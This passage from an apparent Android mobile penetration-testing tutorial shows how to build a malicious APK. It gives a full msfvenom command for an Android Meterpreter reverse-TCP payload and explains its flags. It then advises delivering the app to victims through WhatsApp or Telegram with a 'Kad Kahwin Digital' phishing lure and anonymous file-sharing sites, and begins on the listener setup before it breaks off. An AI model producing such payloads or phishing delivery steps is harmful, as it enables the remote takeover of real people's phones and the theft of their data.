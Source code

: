 Let's back on track, to create our payload, we can use msfvenom using this command
```
msfvenom -p android/meterpreter/reverse_tcp LHOST=<your_local_IP> LPORT=4444 -o appname.apk
```

![](publish/attachments/Mobile%20Pentest%20(Android)%20by%20RAWSEC-6.png)

For this demonstration, I'll use the well-known phishing technique "Kad Kahwin Digital".

Let's try to under what does this command means
-p argument stands for payload, we specify the payload we want to use, which is Meterpreter reverse TCP for Android.
-LHOST argument stands for localhost, we specify where the connection will be established.
-LPORT argument stands for local port, from which port the communication will be established
-o argument stands for output, what the payload will be named and where to be saved.

### 3. Send The Payload
There's a lot of ways to send the payload. One of the famous way is through WhatsApp and Telegram, which is common way of phishing nowadays.

This is where the Art of Manipulation, Social Engineering and PSYOP comes to play. We have to gain trust of the victim to install the application on their device. There's a lot of ways to play around with human emotion like what she did to me (JK) that able to convince them to install the app.

For this demonstration, i don't want to make it complicated. I'll just online file-sharing service like wormhole.app, anonfile.la.

### 4. Configure the listener
Before the payload start to work, we should enable / start the listener first. Making sure that once the payload send the request, our attacker machine is ready the accept the connection.

**Attacker POV:**
